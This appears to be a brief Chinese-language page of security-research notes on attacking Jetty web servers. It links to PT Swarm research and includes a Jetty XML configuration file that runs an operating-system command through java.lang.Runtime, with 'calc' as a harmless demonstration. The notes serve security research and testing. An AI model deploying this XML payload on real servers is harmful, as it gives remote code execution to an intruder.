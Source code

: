- 1、可解析特殊文件扩展名（同 Resin）

![image-20211222143350800](img/28b9dc3344e840718628bafc5217966b.png)


2、[A tip for getting RCE in Jetty apps with just one XML file!](https://twitter.com/ptswarm/status/1555184661751648256)

```xml
<?xml version="1.0"?>
<!DOCTYPE Configure PUBLIC "-//Jetty//Configure//EN" "https://www.eclipse.org/jetty/configure_10_0.dtd">
<Configure class="org.eclipse.jetty.server.handler.ContextHandler">
    <Call class="java.lang.Runtime" name="getRuntime">
        <Call name="exec">
            <Arg>
                <Array type="String">
                    <Item>calc</Item>
                </Array>
            </Arg>
        </Call>
    </Call>
</Configure>
```

测试效果

![](./img/6f51c78bcc1446589bd8e83896d9f0b2.png)


3、[Jetty Features for Hacking Web Apps](https://swarm.ptsecurity.com/jetty-features-for-hacking-web-apps/) `研究思路值得学习`